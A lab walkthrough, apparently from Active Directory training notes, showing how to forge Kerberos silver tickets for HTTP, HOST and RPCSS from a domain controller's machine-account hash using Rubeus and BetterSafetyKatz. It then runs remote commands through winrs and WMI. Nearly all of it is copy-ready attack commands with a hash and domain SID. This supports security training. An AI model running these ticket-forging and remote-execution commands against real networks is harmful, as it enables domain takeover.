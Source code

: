 # 🎫 Command execution on other DC via silver ticket on HTTP & WMI

From the information gathered in previous steps we have the hash for machine account of the domain controller (dcorp-dc$). Using the below command, we can create a Silver Ticket that provides us access to the HTTP service of DC

Please note that the hash of dcorp-dc$ (RC4 in the below command) may be different in the lab. You can also use aes256 keys in place of NTLM hash:

In our previous path we had to copy the hash of the machine account of Dcorp-DC. You can identify it as Dcorp-DC$

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption><p>9e81989d7ce17b7bbd3ac1e05dc94e57</p></figcaption></figure>

First we start by encoding "silver" then we throw in rubeus ->

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /service:http/dcorp-dc.dollarcorp.moneycorp.local /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /sid:S-1-5-21-719815819-3726368948-3917688648 /ldap /user:Administrator /domain:dollarcorp.moneycorp.local /ptt
```

<figure><img src="../../.gitbook/assets/image (1116).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1117).png" alt=""><figcaption></figcaption></figure>

We can check if we go the correct service ticket but first we need to encode "klist":

We can check if we go the correct service ticket:

```
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn%
```

<figure><img src="../../.gitbook/assets/image (1118).png" alt=""><figcaption></figcaption></figure>

And now we can enter the session:

```
winrs -r:dcorp-dc.dollarcorp.moneycorp.local cmd    
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

For accessing WMI, we need to create two tickets - one for HOST service and another for RPCSS. We could also use Rubeus for this but let's use BetterSafetyKatz. Note that we are not using any AV bypass technique here as this is just an example:

Let's start an elevated shell:

(don't forget to use hash of machine user)

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:HOST /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Now we need to Inject a ticket for RPCSS:

```
C:\AD\Tools\BetterSafetyKatz.exe "kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-719815819-3726368948-3917688648 /target:dcorp-dc.dollarcorp.moneycorp.local /service:RPCSS /rc4:9e81989d7ce17b7bbd3ac1e05dc94e57 /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"
```

And if we check what tickets are present with `klist:`

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

And now we could tru to run WMI commands on the domain controller:

```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
Get-WmiObject -Class win32_operatingsystem -ComputerName dcorp-dc
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
